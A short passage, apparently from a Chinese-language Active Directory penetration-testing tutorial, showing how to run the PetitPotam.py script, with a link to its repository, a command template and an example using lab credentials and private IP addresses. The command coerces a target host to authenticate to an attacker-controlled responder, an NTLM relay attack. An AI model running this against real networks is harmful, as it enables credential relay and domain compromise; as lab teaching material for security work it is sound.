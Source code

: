 [![](assets/1699407498-972988b83ef554a49e41c4632e29fcc6.png)](https://xzfile.aliyuncs.com/media/upload/picture/20231106144413-e5c16242-7c6f-1.png)  
c、使用Petitpotam.py脚本  
[https://github.com/topotam/PetitPotam](https://github.com/topotam/PetitPotam)

```plain
#格式：
python Petitpotam.py -d domain -u username -p password <RESPONDERIP> <TARGET>

#示例：
python3 PetitPotam.py -d hacke.testlab -u Al1ex -p 'Kksvqm@123' 192.168.174.129 192.168.174.160
```
